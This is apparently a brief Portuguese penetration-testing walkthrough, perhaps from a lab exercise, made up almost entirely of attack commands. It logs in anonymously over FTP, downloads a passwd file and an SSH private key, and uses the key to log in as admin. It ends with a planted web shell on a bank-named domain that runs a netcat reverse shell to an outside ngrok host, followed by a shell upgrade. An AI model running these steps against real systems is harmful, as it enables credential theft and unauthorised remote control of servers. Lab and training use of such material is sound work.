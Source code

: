 ### Conectando com o ftp

apt install ftp

ftp 10.20.20.156

// alguns servidores utilizam entrada anonima

usuário: anonymous
senha: 
(sem senha)

// agora vamos ver os arquivos

ls

// baixa os arquivos com

get passwd

cd .ssh

get id_rsa

// agora vamos ver o arquivo

cat passwd

// achamos o usuário admin

cat id_rsa

// é uma chave que temos acesso com ssh

### Conectando com o ssh

// Primeiro mudar as permissões

chmod 600 id_rsa

// agora vamos conectar

ssh admin@10.20.20.156 -i id_rsa

## Resultado final

www.bancocn.com/admin/uploads/shell.php7?cmd=nc 0.tcp.sa.ngrok.io 16944 -e /bin/bash

python -c "import pty;pty.spawn('/bin/bash')"

